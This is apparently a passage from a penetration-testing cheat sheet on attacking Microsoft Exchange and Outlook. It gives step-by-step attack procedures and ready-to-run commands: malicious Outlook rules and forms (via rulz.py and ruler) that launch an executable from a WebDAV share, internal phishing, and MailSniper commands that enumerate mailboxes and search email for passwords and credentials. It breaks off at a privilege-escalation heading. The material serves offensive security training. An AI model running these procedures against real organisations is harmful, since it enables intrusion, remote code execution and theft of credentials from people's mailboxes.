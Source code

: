 ````
  -  https://github.com/milo2012/owaDump (--keyword option)
  -  https://github.com/dafthack/MailSniper (Invoke-SelfSearch)
  -  https://github.com/xorrior/EmailRaider (Invoke-MailSearch)
- Internal phishing
  - Mail from internal email adresses to targets.
- Malicious Outlook rules
  - Two interested options: Start application and run a script (Start application is synced through Exchange server, run a script is not)
  - Since Outlook 2016 both options are disabled by default
  - Attack prequisites:
    - Identification of valid credentials
    - Exchange Service Access (via RPC or MAPI over HTTP)
    - Malicious file dropped on disk (Through WebDAV share using UNC or local SMB share when physically inside) 
  - The attack:
    - Create a malicious executable (EXE, HTA, BAT, LNK etc.) and host it on an open WebDAV share
    - Create a malicious Outlook rule using the rulz.py script, pointing the file path to your WebDAV share
      - https://gist.github.com/monoxgas/7fec9ec0f3ab405773fc
    - Run a local Outlook instance using the target's credentials and import the malicious rule you created (File --> Manager Rules & Alerts --> Options --> Improt rules)
    - Send the trigger email. 
- Malicious Outlook Forms
  - If the path is applied that disables Run Application and Run Script rules this still works!
  - Attack prequisites:
    - Identification of valid credentials
    - Exchange service access 
  - KB4011091 for outlook 2016 seems to block VBSCript in forms
  - https://github.com/sensepost/ruler/wiki/Forms
  - ```.\ruler --email <EMAIL> form add --suffix form_name --input /tmp/command.txt --send```

### Attacking from the inside
- All the attacks from the outside works from the inside!
- https://github.com/dafthack/MailSniper

#### Enumerate all mailboxes
```
Get-GlobalAddressList -ExchHostname <EXCH HOSTNAME> -UserName <DOMAIN>\<USER> -Password <PASSWORD> -Verbose -OutFile global-address-list.txt
```

#### Check access to mailboxes with current user
```
Invoke-OpenInboxFinder -EmailList emails.txt -ExchHostname us-exchange -Verbose
```

#### Read e-mails
- The below command looks for terms like pass, creds, credentials from top 100 emails
```
Invoke-SelfSearch -Mailbox <EMAIL> -ExchHostname <EXCHANGE SERVER NAME> -OutputCsv .\mail.csv
```

#### Exchange ActiveSync
- This attack applies when the DC and Exchange Server are hosted on the same machine
- https://labs.mwrinfosecurity.com/blog/accessing-internal-fileshares-through-exchange-activesync/

### MS Exchange escalating privileges
- Attack is performed cross domain, but can be done inside the domain. Just use the current domain instead of parent domain!
![afbeelding](https://user-images.githubusercontent.com/43987245/119706037-bf8d3000-be59-11eb-84cc-6568ba6e5d26.png)

#### Enumerate if exchange groups exist
```
````